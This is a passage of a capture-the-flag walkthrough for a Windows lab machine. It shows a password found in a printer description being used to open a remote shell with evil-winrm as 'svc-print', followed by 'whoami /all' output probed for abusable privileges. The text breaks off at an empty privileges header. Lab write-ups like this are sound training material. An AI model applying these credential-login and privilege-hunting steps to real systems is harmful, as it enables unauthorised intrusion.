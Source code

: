 Right in the description is a password! And we've also discovered the username on the domain for the print service: `svc-print`. Let's see if this password is current and attempt remote access using `evil-winrm`, a Windows Remote Management tool for pentesting.

```
$ evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

We've successfully gained a foothold, let's grab the first flag.

![](images/user-flag.png)

## Root Flag

Alright, let's try to escalate our privileges. Before diving into more intrusive enumeration methods, we'll run the `whoami` command to see if we have any special access or privileges that we can abuse.

```
> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FABRICORP\IT_Accounts                      Group            S-1-5-21-2633719317-1471316042-3957863514-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------
```